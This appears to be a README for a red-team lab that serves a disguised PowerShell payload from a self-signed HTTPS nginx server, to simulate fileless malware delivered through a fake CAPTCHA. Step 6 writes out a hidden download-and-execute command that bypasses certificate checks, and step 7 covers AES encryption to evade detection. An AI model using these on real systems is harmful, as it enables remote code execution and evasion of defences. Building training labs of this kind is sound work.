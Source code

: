 # 🛠️ Fileless Malware Lab Setup with Self-Signed HTTPS & Nginx

This guide documents the process of setting up a local HTTPS web server using a self-signed SSL certificate to serve PowerShell payloads, ideal for simulating **fileless malware delivery via fake CAPTCHA**.

---

## 📁 1. Create SSL Certificate

Create a directory and generate a self-signed certificate valid for 1 year:

```bash
mkdir -p ~/ssl && cd ~/ssl

openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
  -keyout selfsigned.key \
  -out selfsigned.crt \
  -subj "/CN=192.168.10.52"
```

---

## 📂 2. Move SSL Certificate to Nginx

Move the generated certificate and private key to a directory readable by Nginx:

```bash
sudo mkdir -p /etc/nginx/ssl
sudo cp selfsigned.crt selfsigned.key /etc/nginx/ssl/
```

---

## ⚙️ 3. Configure Nginx

Edit your Nginx configuration:

```bash
sudo nano /etc/nginx/nginx.conf
```

Add or modify the following server block for HTTPS:

```nginx
server {
    listen 443 ssl;
    server_name 192.168.10.52;

    ssl_certificate     /etc/nginx/ssl/selfsigned.crt;
    ssl_certificate_key /etc/nginx/ssl/selfsigned.key;

    root /srv/http/malware-lab;
    index index.html;

    location / {
        try_files $uri $uri/ =404;
    }
}
```

---

## 🌐 4. Restart Nginx

Apply the changes by restarting Nginx:

```bash
sudo systemctl restart nginx
```

---

## 🧪 5. Test Access

Ensure your payload is in `/srv/http/malware-lab/`:

```bash
ls /srv/http/malware-lab/
index.html  WinUpdateChecker.ps1
```

Open in browser to test:

```
https://192.168.10.52/WinUpdateChecker.ps1
```

---

## ⚔️ 6. PowerShell Payload Execution

Use this command to bypass SSL validation and execute the script remotely:

```powershell
powershell -w hidden -nop -c "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; $u='https://192.168.10.52/WinUpdateChecker.ps1'; iex (New-Object Net.WebClient).DownloadString($u)"
```

---
## 🔐 7. Creating an AES-Encrypted Payload

To avoid static signature detection or simple network-based payload grabbing, you can encrypt your PowerShell script using AES-CBC and only decrypt it in-memory during execution.

```powershell
pwsh AESEncryptor.ps1 -PlainTextPath "payload.txt"
```

## 📌 Notes

* This setup is intended **for lab or red team simulation only**.
* The self-signed certificate is not trusted by default; PowerShell bypass is necessary.

